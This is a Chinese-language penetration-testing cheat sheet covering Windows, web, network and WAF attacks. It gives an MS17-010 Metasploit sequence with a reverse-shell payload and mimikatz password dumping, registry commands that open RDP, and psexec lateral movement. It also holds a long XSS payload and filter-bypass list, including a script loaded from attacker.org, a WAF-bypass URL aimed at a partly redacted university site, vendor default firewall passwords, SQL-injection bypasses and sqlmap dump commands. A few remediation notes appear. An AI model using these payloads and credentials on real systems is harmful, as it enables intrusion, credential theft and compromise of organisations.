- [Nmap扫描原理与用法](https://blog.csdn.net/aspirationflow/article/details/7694274)

**[masscan](https://github.com/robertdavidgraham/masscan)**

#### 域信息
- windows
    ```bash
    systeminfo
    ```

- 域用户列表
    a.分析特权用户组
    b.定位指定用户

- AD信息收集
    a.GPO
    b.特权令牌
    c.信任关系
    d.定位指定机器

---

## 运维保障
### 基线
**资源**
- [CIS Benchmarks](https://learn.cisecurity.org/benchmarks)
    安全配置建议，内容很多，虽然是英文版本

**工具**
- [lis912/CapOS](https://github.com/lis912/CapOS)
    等级保护测评windows基线检查

**文章**
- [经验分享 | 企业如何做好安全基线配置](https://www.freebuf.com/articles/es/158781.html)

---

### 应用安全
**查暗链**
1. 搜索引擎:`黑产关键字+site:"网站域名"`
2. 用类似xenu(尽量在虚拟机下运行)的工具批量爬取网站外链查看有无关键字

**查后门**
1. [D盾](http://www.d99net.net/)
2. [深信服Web后门扫描](http://edr.sangfor.com.cn/backdoor_detection.html)
3. [河马webshell查杀](http://www.shellpub.com/)
4. [铱迅Webshell扫描器](http://www.yxlink.com/technology.php)
5. [网站安全狗网马查杀](download.safedog.cn/download/software/safedogwzApache.exe)
6. [OpenRASP WEBDIR+检测引擎](https://scanner.baidu.com)

---

# 6内/外网
## WAN
### dns
**CVE-1999-0532  dns域传送漏洞**
```bash
dig @dns.xxx.edu.cn axfr xxx.edu.cn
@指定域名服务器；axfr 为域传送指令；xxx.edu.cn表示要查询的域名；
```

---

## windows渗透
### exp
**快速查找未打补丁的exp**
可以最安全的减少目标机的未知错误,以免影响业务。
命令行下执行检测未打补丁的命令如下：
>systeminfo>micropoor.txt&(for %i in (KB977165 KB2160329 KB2503665 KB2592799 KB2707511 KB2829361 KB2850851 KB3000061 KB3045171 KB3077657 KB3079904 KB3134228 KB3143141 KB3141780) do @type micropoor.txt|@find /i  "%i"|| @echo %i you can fuck)&del /f /q /a micropoor.txt

注：以上需要在可写目录执行。需要临时生成 micrpoor.txt,以上补丁编号请根据环境来增
删。
一般实战中在类似 tmp目录等可写目录下执行：如`C:\tmp>`

**RCE**
- MS17-010 eternalblue
```bash
发现,检测
use auxiliary/scanner/smb/smb_ms17_010

使用payload连上去
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/reverse_tcp
set lhost   #设一下本机地址
set rhosts 
run

msf 下
加载mimikatz模块
load mimikatz
kerberos
```
- MS15-034 Vulnerability in HTTP.sys could allow remote code execution

**提权**
- MS14-058
- MS15-051
- MS15-097
- MS16-014
- MS16-016
- MS16-032
- MS16-135
- MS17-017
- CVE-2017-0213
- CVE-2018-8120

**黑屏**
- MS12-020

**exp注**
```bash
MS17-017 　[KB4013081]　　[GDI Palette Objects Local Privilege Escalation]　
(windows 7/8)
CVE-2017-8464 　[LNK Remote Code Execution Vulnerability]　　(windows
10/8.1/7/2016/2010/2008)
CVE-2017-0213 　[Windows COM Elevation of Privilege Vulnerability]　　(windows
10/8.1/7/2016/2010/2008)
MS17-010 　[KB4013389]　　[Windows Kernel Mode Drivers]　　(windows
7/2008/2003/XP)
MS16-135 　[KB3199135]　　[Windows Kernel Mode Drivers]　　(2016)
MS16-111 　[KB3186973]　　[kernel api]　　(Windows 10 10586 (32/64)/8.1)
MS16-098 　[KB3178466]　　[Kernel Driver]　　(Win 8.1)
MS16-075 　[KB3164038]　　[Hot Potato]　　(2003/2008/7/8/2012)
MS16-034 　[KB3143145]　　[Kernel Driver]　　(2008/7/8/10/2012)
MS16-032 　[KB3143141]　　[Secondary Logon Handle]　　(2008/7/8/10/2012)
MS16-016 　[KB3136041]　　[WebDAV]　　(2008/Vista/7)
MS15-097 　[KB3089656]　　[remote code execution]　　(win8.1/2012)
MS15-076 　[KB3067505]　　[RPC]　　(2003/2008/7/8/2012)
MS15-077 　[KB3077657]　　[ATM]　　(XP/Vista/Win7/Win8/2000/2003/2008/2012)
MS15-061 　[KB3057839]　　[Kernel Driver]　　(2003/2008/7/8/2012)
MS15-051 　[KB3057191]　　[Windows Kernel Mode Drivers]　
(2003/2008/7/8/2012)
MS15-010 　[KB3036220]　　[Kernel Driver]　　(2003/2008/7/8)
MS15-015 　[KB3031432]　　[Kernel Driver]　　(Win7/8/8.1/2012/RT/2012 R2/2008
R2)
MS15-001 　[KB3023266]　　[Kernel Driver]　　(2008/2012/7/8)
MS14-070 　[KB2989935]　　[Kernel Driver]　　(2003)
MS14-068 　[KB3011780]　　[Domain Privilege Escalation]　　(2003/2008/2012/7/8)
MS14-058 　[KB3000061]　　[Win32k.sys]　　(2003/2008/2012/7/8)
MS14-040 　[KB2975684]　　[AFD Driver]　　(2003/2008/2012/7/8)
MS14-002 　[KB2914368]　　[NDProxy]　　(2003/XP)
MS13-053 　[KB2850851]　　[win32k.sys]　　(XP/Vista/2003/2008/win 7)
MS13-046 　[KB2840221]　　[dxgkrnl.sys]　　(Vista/2003/2008/2012/7)
MS13-005 　[KB2778930]　　[Kernel Mode Driver]　　(2003/2008/2012/win7/8)
MS12-042 　[KB2972621]　　[Service Bus]　　(2008/2012/win7)
MS12-020 　[KB2671387]　　[RDP]　　(2003/2008/7/XP)
MS11-080 　[KB2592799]　　[AFD.sys]　　(2003/XP)
MS11-062 　[KB2566454]　　[NDISTAPI]　　(2003/XP)
MS11-046 　[KB2503665]　　[AFD.sys]　　(2003/2008/7/XP)
MS11-011 　[KB2393802]　　[kernel Driver]　　(2003/2008/7/XP/Vista)
MS10-092 　[KB2305420]　　[Task Scheduler]　　(2008/7)
MS10-065 　[KB2267960]　　[FastCGI]　　(IIS 5.1, 6.0, 7.0, and 7.5)
MS10-059 　[KB982799]　　 [ACL-Churraskito]　　(2008/7/Vista)
MS10-048 　[KB2160329]　　[win32k.sys]　　(XP SP2 & SP3/2003 SP2/Vista SP1 &
SP2/2008 Gold & SP2 & R2/Win7)
MS10-015 　[KB977165]　　 [KiTrap0D]　　(2003/2008/7/XP)
MS10-012 　[KB971468]　　[SMB Client Trans2 stack overflow]　　(Windows
7/2008R2)
MS09-050 　[KB975517]　　 [Remote Code Execution]　　(2008/Vista)
MS09-020 　[KB970483]　　 [IIS 6.0]　　(IIS 5.1 and 6.0)
MS09-012 　[KB959454]　　 [Chimichurri]　　(Vista/win7/2008/Vista)
MS08-068 　[KB957097]　　 [Remote Code Execution]　　(2000/XP)
MS08-067 　[KB958644]　　 [Remote Code Execution]　　(Windows 2000/XP/Server
2003/Vista/Server 2008)
MS08-066 　[]　　 []　　(Windows 2000/XP/Server 2003)
MS08-025 　[KB941693]　　 [Win32.sys]　　(XP/2003/2008/Vista)
MS06-040 　[KB921883]　　 [Remote Code Execution]　　(2003/xp/2000)
MS05-039 　[KB899588]　　 [PnP Service]　　(Win 9X/ME/NT/2000/XP/2003)
MS03-026 　[KB823980]　　 [Buffer Overrun In RPC Interface]　
(/NT/2000/XP/2003)
```

---

### RDP
**cmd开RDP**
> REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber 

测试可以：
- 开启3389端口dos命令（开启XP&2003终端服务）
    1. 方法一：`REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f`
    2. 方法二：`REG add HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /d 0 /t REG_DWORD /f`
    
- 查看3389端口是否开启
    `REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /*如果是0x0则开启`

- 更改终端端口为2008(十六进制为：0x7d8)
    1. `REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\Wds\rdpwd\Tds\tcp /v PortNumber /t REG_DWORD /d 0x7d8 /f`
    2. `REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber /t REG_DWORD /d 0x7D8 /f`

- 查看3389端口是否更改
    `REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber  /*出来的结果是16进制`

- 取消xp&2003系统防火墙对终端服务的限制及IP连接的限制：
    `REG ADD HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile\GloballyOpenPorts\List /v 3389:TCP /t REG_SZ /d 3389:TCP:*:Enabled :@ xpsp2res.dll,-22009 /f`

此时可以链接3389
然后抓取密码
```bash
D:\>mimikatz.exe ""privilege::debug"" ""log sekurlsa::logonpasswords full"" exit && dir //打印输出mimikatz
D:\>mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> log.txt //输出到log.txt
```

**多开3389**
用命令没成功,还是用工具把。

### 密码
**mimikatz**
提权
`privilege::debug`

抓取密码
`sekurlsa::logonpasswords`

### 域渗透
```bash
#如果没有psexec工具记得找pstool工具包,传一个上去
psexec \\hostIp -u [username] -p [password] cmd
```

---

## web渗透
### vul
#### 各类论坛/CMS/框架
**工具**
- [SecWiki/CMS-Hunter](https://github.com/SecWiki/CMS-Hunter)
- [Q2h1Cg/CMS-Exploit-Framework](https://github.com/Q2h1Cg/CMS-Exploit-Framework)
- [Lucifer1993/AngelSword](https://github.com/Lucifer1993/AngelSword)

**phpmyadmin**
- **LOAD DATA INFILE 任意文件读取漏洞**
    - POC | Payload | exp
        [Gifts/Rogue-MySql-Server](https://github.com/Gifts/Rogue-MySql-Server)
        ```vim
        vim rogue_mysql_server.py
            PORT = 3307
        python rogue_mysql_server.py
        ```
        打开目标phpMyAdmin的登录页面，地址输入db:3307、用户名、密码，提交登录。
        回到db的终端，如果文件读取成功会将文件内容记录到mysql.log文件中

- **4.8.x 本地文件包含漏洞利用**
    [phpMyAdmin 4.8.x 本地文件包含漏洞利用 | Vulnspy Blog](http://blog.vulnspy.com/2018/06/21/phpMyAdmin-4-8-x-LFI-Exploit/)
    可以通过这个线上靶场实验,不过docker镜像可能有点问题,mysql进程起不起来,我的解决方式是直接卸了重装mysql-server,而且他默认的apt源无法访问,还要换一下apt源

#### 中间件
**[Apache Struts](https://cwiki.apache.org/confluence/display/WW/Security+Bulletins)**
- **工具**
    - [Lucifer1993/struts-scan](https://github.com/Lucifer1993/struts-scan)
        Python2 编写的struts2漏洞全版本检测和利用工具
    - [HatBoy/Struts2-Scan](https://github.com/HatBoy/Struts2-Scan)
        Python3 Struts2全漏洞扫描利用工具

- **环境收集**
    - [wh1t3p1g/Struts2Environment](https://github.com/wh1t3p1g/Struts2Environment)
    - [sie504/Struts-S2-xxx](https://github.com/sie504/Struts-S2-xxx)
    - [https://github.com/shengqi158/S2-055-PoC](https://github.com/shengqi158/S2-055-PoC)

- **文章**
    - [Struts2 历史 RCE 漏洞回顾不完全系列](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities/)

- **S2-020 & CVE-2014-0094 & CNNVD-201403-191**

- **S2-045 & CVE-2017-5638**
    - POC | Payload | exp
        - [tengzhangchao/Struts2_045-Poc](https://github.com/tengzhangchao/Struts2_045-Poc)
        - [iBearcat/S2-045](https://github.com/iBearcat/S2-045)

- **S2-046 & CVE-2017-5638**
    该漏洞是由于上传功能的异常处理函数没有正确处理用户输入的错误信息，导致远程攻击者可通过修改HTTP请求头中的Content-Type值，构造发送恶意的数据包，利用该漏洞进而在受影响服务器上执行任意系统命令。 
    
    - 修复方案
        1. 官方已经发布版本更新，尽快升级到不受影响的版本（Struts 2.3.32或Struts 2.5.10.1），建议在升级前做好数据备份。
        2. 临时修复方案
        在用户不便进行升级的情况下，作为临时的解决方案，用户可以进行以下操作来规避风险：在WEB-INF/classes目录下的struts.xml 中的struts 标签下添加
        `<constant name="struts.custom.i18n.resources" value="global" />`
        在WEB-INF/classes/ 目录下添加 global.properties，文件内容如下：
        `struts.messages.upload.error.InvalidContentTypeException=1`

    - POC | Payload | exp
        - [mazen160/struts-pwn](https://github.com/mazen160/struts-pwn)

- **S2-048 & CVE-2017-9791**
    - POC | Payload | exp
        - [dragoneeg/Struts2-048](https://github.com/dragoneeg/Struts2-048)

- **S2-052 & CVE-2017-9805**
    - POC | Payload | exp
        - [mazen160/struts-pwn_CVE-2017-9805](https://github.com/mazen160/struts-pwn_CVE-2017-9805)

- **S2-053 & CVE-2017-12611**
    - POC | Payload | exp
        - [brianwrf/S2-053-CVE-2017-12611](https://github.com/brianwrf/S2-053-CVE-2017-12611)

- **S2-055 & CVE-2017-7525**
    - POC | Payload | exp
        - [iBearcat/S2-055](https://github.com/iBearcat/S2-055)

- **S2-056 & CVE-2018-1327**
    - POC | Payload | exp
        - [ iBearcat/S2-056-XStream](https://github.com/iBearcat/S2-056-XStream)

- **S2-057 & CVE-2018-11776**
    该漏洞由Semmle Security Research team的安全研究员Man YueMo发现。该漏洞是由于在Struts2开发框架中使用namespace功能定义XML配置时，namespace值未被设置且在上层动作配置（Action Configuration）中未设置或用通配符namespace，可能导致远程代码执行。
    
    - POC | Payload | exp
        - [Ivan1ee/struts2-057-exp](https://github.com/Ivan1ee/struts2-057-exp)

**IIS**
- **IIS shortname**
    windows在创建一个新文件时，操作系统还会生成 8.3 格式的兼容 MS-DOS 的（短）文件名，以允许基于 MS-DOS 或16位 windows 的程序访问这些文件。 
    
    - 文章
        - [IIS短文件名漏洞](http://www.lonelyor.org/lonelyorWiki/15446866501207.html)
        - [IIS短文件名泄露漏洞修复](https://segmentfault.com/a/1190000006225568)
        - [IIS短文件/文件夹漏洞(汇总整理) ](https://www.freebuf.com/articles/4908.html)

    - 修复方案
        1. 升级 .net framework 至 4.0 版本或以上
        2. 修改HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\FileSystem 修改NtfsDisable8dot3NameCreation为1

    - 检测方法
        ```bash
        dir /x
        1. http://www.xxx.com/*~1*/.aspx   
        2. http://www.xxx.com/l1j1e*~1*/.aspx
        #若1返回404而2返回400，则可以判断目标站点存在漏洞。
        http://www.xxx.com/a*~1*/.aspx
        #若存在将返回404，不存在则返回400。以此类推，不断向下猜解所有的6个字符。
        ```

    - POC | Payload | exp
        - [lijiejie/IIS_shortname_Scanner](https://github.com/lijiejie/IIS_shortname_Scanner)
        - [irsdl/IIS-ShortName-Scanner](https://github.com/irsdl/IIS-ShortName-Scanner)
    
- **.Net Framework 拒绝服务攻击**
    当请求文件夹名称包含 ~1 的请求，会导致不存在该文件的 .Net Framework 去递归查询所有根目录。如果只有一个“~1”是无效的，当“~1”大于一个，比如像这样： 
    `/wwwtest/fuck~1/~1/~1/~1.aspx`
    此时文件系统会这样调用：
    ```
    \wwwtest                           SUCCESS
    \wwwtest\fuck~1\~1\~1\~1           PATH NOT FOUND
    \wwwtest\fuck~1                    NAME NOT FOUND
    \wwwtest\fuck~1\~1\                PATH NOT FOUND
    \wwwtest\fuck~1\~1\~1\             PATH NOT FOUND
    \wwwtest\fuck~1\~1\~1\~1.aspx      PATH NOT FOUND
    \wwwtest\fuck~1\~1\~1\~1.aspx      PATH NOT FOUND
    \wwwtest\fuck~1\~1\~1              PATH NOT FOUND
    \wwwtest\fuck~1\~1\~1\~1.aspx      PATH NOT FOUND
    \wwwtest\fuck~1\~1\~1              PATH NOT FOUND
    \wwwtest\fuck~1\~1                 PATH NOT FOUND
    \wwwtest\fuck~1                    NAME NOT FOUND
    \wwwtest                           SUCCESS
    \wwwtest                           SUCCESS
    ```
    如果我们请求的文件/文件夹名同时存在大小写时，这个请求会被请求两次，一次是原封不动的请求，一次是全部使用小写的请求。

    下表显示了每个请求的FS调用的数量（Windows 2008 R2, IIS 7.5(latest patch – June 2012), and .Net framework 4.0.30319 (在别的系统下可能会不同)）
    

**Weblogic**
- **文章**
    - [利用Weblogic进行入侵的一些总结](http://drops.xmd5.com/static/drops/tips-8321.html)

- **CVE-2017-10271**
    - 文章
        - [WebLogic XMLDecoder反序列化漏洞复现](https://mochazz.github.io/2017/12/25/weblogic_xmldecode/)
        - [blog-hugo/content/blog/Weblogic-0day.md](https://github.com/kylingit/blog-hugo/blob/master/content/blog/Weblogic-0day.md)

    - 检测方法
        访问`<目标IP:端口>/wls-wsat/CoordinatorPortType11`

    - POC | Payload | exp
        - [1337g/CVE-2017-10271](https://github.com/1337g/CVE-2017-10271)

- **CVE-2018-2628**
    - 文章
        - [CVE-2018-2628 简单复现与分析 | xxlegend](http://xxlegend.com/2018/04/18/CVE-2018-2628%20%E7%AE%80%E5%8D%95%E5%A4%8D%E7%8E%B0%E5%92%8C%E5%88%86%E6%9E%90/)

    - POC | Payload | exp
        - [shengqi158/CVE-2018-2628](https://github.com/shengqi158/CVE-2018-2628)

- **CVE-2018-2893**
    - 文章
        -[天融信关于CVE-2018-2893 WebLogic反序列化漏洞分析](https://www.freebuf.com/column/178103.html)

    - POC | Payload | exp
        - [pyn3rd/CVE-2018-2893](https://github.com/pyn3rd/CVE-2018-2893)

- **CVE-2018-2894**
    - 文章
        - [Weblogic CVE-2018-2894 漏洞复现](https://blog.csdn.net/qq_23936389/article/details/81256015)

    - POC | Payload | exp
        - [LandGrey/CVE-2018-2894](https://github.com/LandGrey/CVE-2018-2894)

- **CVE-2018-3191**
    - 文章
        - [从流量侧浅谈WebLogic远程代码执行漏洞（CVE-2018-3191）](https://www.jianshu.com/p/f73b162c4649)

    - POC | Payload | exp
        - [voidfyoo/CVE-2018-3191](https://github.com/voidfyoo/CVE-2018-3191)

- **CVE-2018-3245**
    - 文章
        - [weblogic反序列化漏洞 cve-2018-3245](https://blog.51cto.com/13770310/2308371)

    - POC | Payload | exp
        - [pyn3rd/CVE-2018-3245](https://github.com/pyn3rd/CVE-2018-3245)

- **CVE-2019-2725 && CNVD-C-2019-48814**
    - 文章
        - [CNVD-C-2019-48814 Weblogic wls9_async_response 反序列化RCE复现](https://www.jianshu.com/p/c4982a845f55)

    - 检测方法
        ```bash
        <目标IP:端口>/_async/AsyncResponseService
        <目标IP:端口>/wls-wsat/CoordinatorPortType
        ```

    - POC | Payload | exp
        - [MyTools/CVE-2019-2725](https://github.com/No4l/MyTools/tree/master/CVE-2019-2725)
        - [skytina/CNVD-C-2019-48814-COMMON](https://github.com/skytina/CNVD-C-2019-48814-COMMON)

- **[Oracle WebLogic Server 10.3 - 'console-help.portal' Cross-Site Scripting](https://www.exploit-db.com/exploits/33079)**
    - POC | Payload | exp
        访问`http://www.example.com:7011/consolehelp/console-help.portal?_nfpb=true&_pageLabel=ConsoleHelpSearchPage&searchQuery="><script>alert('DSECRG')</script> `

---

### XSS
**xss 检测环境**
1分钟搭好
下个phpstudy直接往根目录建个1.php
然后访问 xxx.xxx.xxx.xxx/1.php?parm=接xss代码
```php
<?php
$input=$_GET["parm"];
echo "<div>".$input."</div>";
?>
```

**一些 payload**
```html
Script 标签
<script>alert(123)</script>
<script>prompt(1);</script>
<script>confirm(1);</script>
<script>\u0061\u006C\u0065\u0072\u0074(1)</script>
<script>+alert(1)</script>
<script>setTimeout(alert(1),0)</script>
<script src=data:text/javascript,alert(1)></script>
<script>alert(String.fromCharCode(49,49))</script>
<<SCRIPT>alert("XSS");
//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
</TITLE><SCRIPT>alert("XSS");</SCRIPT>
<svg><script>123<1>alert(123)</script>
"><script>alert(123)</script>
'><script>alert(123)</script>
><script>alert(123)</script>
</script><script>alert(123)</script>
--><script>alert(123)</script>
><script>alert(123);</script x=
<script>alert/(a/)</script>
<script NAUGHTY_HACKER>alert(1)</script NAUGHTY_HACKER>

绕过进行一次移除操作：
<scr<script>ipt>alert("XSS")</scr<script>ipt>
Script 标签可以用于定义一个行内的脚本或者从其他地方加载脚本：
<script>alert("XSS")</script>
<script src="http://attacker.org/malicious.js"></script>
```
```html


<input>
<input onfocus="alert('xss');">
<input onblur=alert("xss") autofocus><input autofocus> //竞争焦点,从而触发onblur事件
<input onfocus="alert('xss');" autofocus>  //通过autofocus属性执行本身的focus事件,这个向量是使焦点自动跳到输入元素上,触发焦点事件,无需用户去触发
<input type="image" formaction=JaVaScript:alert(0)>

<details>
<details open OntogGle="alert(1)">  //使用open属性触发ontoggle事件,无需用户去触发

<svg>
<svg onload=alert("xss");>
<svg/onload=prompt(1);>

<select>
<select onfocus=alert(1)></select>
<select onfocus=alert(1) autofocus> //通过autofocus属性执行本身的focus事件

<iframe>
<iframe onload=alert("xss");></iframe>
<IFRAME SRC="javascript:alert(29);"></IFRAME>

<video>
<video><source onerror="alert(1)">
<video poster=javascript:alert(1)//></video> // Works Upto Opera 10.5

<audio>
<audio src=x  onerror=alert("xss");>

<body>
<body/onload=alert("xss");>
<body 
onscroll=alert("xss");><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus>    //利用换行符以及autofocus,自动去触发onscroll事件,无需用户去触发
<body onload=prompt(1);>

<textarea>
<textarea onfocus=alert("xss"); autofocus>

<keygen>
<keygen autofocus onfocus=alert(1)> //仅限火狐

<marquee>
<marquee onstart=alert(1)>hack the planet</marquee>  //Chrome不行,火狐和IE都可以
<marquee behavior="alternate" onstart=alert(1)>hack the planet</marquee>
<marquee loop="1" onfinish=alert(1)>hack the planet</marquee>
<marquee/onstart=confirm(2)>/

<isindex>
<isindex type=image src=1 onerror=alert("xss")>   //仅限于IE

<anytag>
<anytag onmouseover=alert(15)>M
<anytag onclick=alert(16)>M

<a>
<a onmouseover=alert(17)>M
<a onclick=alert(18)>M
<a href=javascript:alert(19)>M
<a href="javascript:alert('test')">link</a>

<div>
<div onclick="alert('xss')">
<div onmouseenter="alert('xss')">   //当用户鼠标移动到 div 上时就会触发我们的代码。
<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="alert(1)">

<style>
<style onload=alert(1) />

<form>
<form/action=javascript:alert(22)><input/type=submit>
<form onsubmit=alert(23)><button>M

<object>
<object data="javascript:alert(document.domain)">
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">

<embed>
<embed/src=javascript:alert(29);>
```

```html
利用link远程包含js文件
PS：在无CSP的情况下才可以 
<link rel=import href="http://127.0.0.1/1.js">


javascript伪协议
<a>标签
<a href="javascript:alert(`xss`);">xss</a>

<iframe>标签
<iframe src=javascript:alert('xss');></iframe>

标签
//IE7以下

<form>标签
<form action="Javascript:alert(1)"><input type=submit>


其它
expression属性
 // IE7以下
<div style="color:rgb(''�x:expression(alert(1))"></div> //IE7以下
<style>#test{x:expression(alert(/XSS/))}</style> // IE7以下

background属性
<table background=javascript:alert(1)></table> //在Opera 10.5和IE6上有效

杂项
';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode<script>alert('xss')</script>
<math><a xlink:href="//baidu.com">click
```

**奇技淫巧**
1. 使用无害的payload,类似`<b>,<i>,<u>`观察响应,判断应用程序是否被HTML编码,是否标签被过滤,是否过滤<>等等；
2. 如果过滤闭合标签,尝试无闭合标签的payload`<b,<i,<marquee`观察响应；
```html
绕过长度限制
"onclick=alert(1)//
"><!--
--><script>alert(xss);<script>
```
```html
过滤空格
用/代替空格

```

```html
过滤关键字
大小写绕过

<scRiPt>alert(1);</scrIPt>


双写关键字
有些waf可能会只替换一次且是替换为空,这种情况下我们可以考虑双写关键字绕过
<imimgg srsrcc=x onerror=alert("xss");>


字符拼接
利用eval


利用top
<script>top["al"+"ert"](`xss`);</script>


其它字符混淆
有的waf可能是用正则表达式去检测是否有xss攻击,如果我们能fuzz出正则的规则,则我们就可以使用其它字符去混淆我们注入的代码了
下面举几个简单的例子
可利用注释、标签的优先级等
1.<<script>alert("xss");//<</script>
2.<title>> //因为title标签的优先级比img的高,所以会先闭合title,从而导致前面的img标签无效
3.<SCRIPT>var a="\\";alert("xss");//";</SCRIPT>


编码绕过
Unicode编码绕过


url编码绕过


<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>

Ascii码绕过


hex绕过


八进制


base64绕过


<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
```
```html
过滤双引号,单引号
1.如果是html标签中,我们可以不用引号。如果是在js中,我们可以用反引号代替单双引号

2.使用编码绕过,具体看上面我列举的例子,我就不多赘述了
```
```html
过滤括号
当括号被过滤的时候可以使用throw来绕过
<svg/onload="window.onerror=eval;throw'=alert\x281\x29';">
```
```html
过滤url地址
使用url编码


使用IP
1.十进制IP


2.八进制IP


3.hex


4.html标签中用//可以代替http://


5.使用\\
但是要注意在windows下\本身就有特殊用途,是一个path 的写法,所以\\在Windows下是file协议,在linux下才会是当前域的协议

6.使用中文逗号代替英文逗号
如果你在你在域名中输入中文句号浏览器会自动转化成英文的逗号
//会自动跳转到百度
```

**如何防止xss**
- 过滤一些危险字符,以及转义& < > " ' /等危险字符
- HTTP-only Cookie: 禁止 JavaScript 读取某些敏感 Cookie,攻击者完成 XSS 注入后也无法窃取此Cookie。
- 设置CSP(Content Security Policy)
- 输入内容长度限制

**Reference**
- [XSS插入绕过一些方式总结](https://blog.csdn.net/qq_29277155/article/details/51320064)
- [XSS总结](https://xz.aliyun.com/t/4067)
- [WAF的XSS绕过姿势](https://www.freebuf.com/articles/web/81959.html)
- [他山之石 | 对 XSS 的一次深入分析认识](https://www.freebuf.com/articles/web/195507.html)
- [minimaxir/big-list-of-naughty-strings](https://github.com/minimaxir/big-list-of-naughty-strings)

---

### 安防设备
**默认口令**
```bash
天融信防火墙
8080
用户名:superman 密码:talent、talent!23
test/123456

联想网御防火墙
8889
用户名:admin    密码:leadsec@7766、administrator、bane@7766

深信服防火墙
用户名：admin   密码：admin

启明星辰
8889
用户名：admin   密码：bane@7766、admin@123

juniper
用户名:netscreen    密码:netscreen

Cisco
用户名:admin    密码:cisco

Huawei
用户名:admin    密码:Admin@123
eudemon eudemon

H3C
用户名:admin    密码:admin

绿盟IPS
用户名: weboper 密码: weboper

网神防火墙
用户名：admin   密码：firewall

华为VPN
账号：root  密码：mduadmin

迪普
admin/admin_default

山石
hillstone/hillstone

安恒明御防火墙
admin/adminadmin

齐治堡垒机
shterm/shterm
```

**绕waf**
- 非默认端口导致完全绕过
    测试HTTPS服务
    测试8080/8081等端口的服务

- 路径限制绕过
这只WAF会对访问敏感路径加以限制,但是加上参数可以绕过。
比如想访问`xxx.██.edu.cn/phpmyadmin/`会被拦截,访问`xxx.██.edu.cn/phpmyadmin/?id=1`可以绕过

- XSS防护绕过
最直白的payload类似`<script> alert('xss'); </script>`
但是你可以用`<script src=来远程加载脚本,并绕过防护`
`http://██.██.edu.cn/██/██?search=naive%22%3E%20%3Cmeta%20name=%22referrer%22%20content=%22never%22%20%3E%20%3Cscript%20src=%22https://cdn.jsdelivr.net/gh/TomAPU/xsstest/test.js%22%3E%3C/script%3E%20%3C!--`

- SQL注入绕过
Union注入时`union select 1 from 2`替换成`union/*fuckyou//*a*//*!select*/1/*fuckyou//*a*//*!from*/2`
order by测试时直接把空格换成`/**//**/`

**Reference**
- [国内防火墙默认密码](https://www.qugcloud.cn/2018/05/19/firewall-pwd/)
- [██大学通用型WAF不完全绕过（持续非定期更新） ](https://drivertom.blogspot.com/2018/12/waf.html)

---

### 注入
#### sql
**sqlmap**
```bash
sqlmap -u URL	#判断注入
sqlmap -u URL --current-db	 #获取当前数据库
sqlmap -u URL -D DATABASE --tables		#获取数据库表
sqlmap -u URL -D DATABASE -T TABLES --columns	#获取指定表的列名
sqlmap -u URL -D DATABASE -T TABLES -C COLUMNS --dump		#获取指定表的列名

sqlmap -r aaa.txt  #post型注入
```

---

### 姿势
- url跳转漏洞
- 文件包含漏洞
- 文件解析漏洞
- 任意号码注册
- 任意文件下载
- 文件上传漏洞
- 短信重置密码接口(短信轰炸)
- 越权
- 账号密码爆破
- 验证码绕过

---

## 软件vul
**ESFileExplorers**
- **CVE-2019-6447**
    - [fs0c131y/ESFileExplorerOpenPortVuln](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln)

**Firefox**
- **CVE-2019-9810**
    - [0vercl0k/CVE-2019-9810](https://github.com/0vercl0k/CVE-2019-9810)

**Evernote**
- **Evernote 7.9**
    - [Code execution – Evernote](https://securityaffairs.co/wordpress/84037/hacking/local-file-path-traversal-evernote.html)

---

## 协议vul
### ssl
**Heartbleed**
- POC | Payload | exp
    [OpenSSL TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure](https://www.exploit-db.com/exploits/32745)

**[MassBleed](https://github.com/1N3/MassBleed)**

**[sslscan](https://github.com/rbsec/sslscan)**

**[testssl](https://github.com/drwetter/testssl.sh)**

---

## 业务vul
### 数据库
**oracle**
- **CVE-2012-1675 Oracle TNS Listener Remote Poisoning**
    ```bash
    use auxiliary/admin/oracle/tnscmd   #该漏洞可以远程获取到oracle的内存信息,若是能获取到内存中的数据即为存在漏洞。
    use auxiliary/admin/oracle/sid_brute  #爆破oracle的SID
    ```

---

## 纯网渗透
### SNMP
**snmp弱口令**
安装
`yum -y install net-snmp-utils`

Usage
```bash
snmpwalk -v 2 -c public 192.168.xxx.xxx
snmp-check 192.168.xxx.xxx -c public -v 2c
```

**Reference**
- [SNMP协议攻击](https://xz.aliyun.com/t/1562)
- [烂泥：使用snmpwalk采集设备的OID信息](https://www.ilanni.com/?p=8408)
- [渗透测试中如何收集利用SNMP协议数据](https://www.freebuf.com/articles/network/104522.html)
- [snmp弱口令引起的信息泄漏](http://drops.xmd5.com/static/drops/tips-409.html)

---

## 云渗透
### aws
**S3**
- [gwen001/s3-buckets-finder](https://github.com/gwen001/s3-buckets-finder)
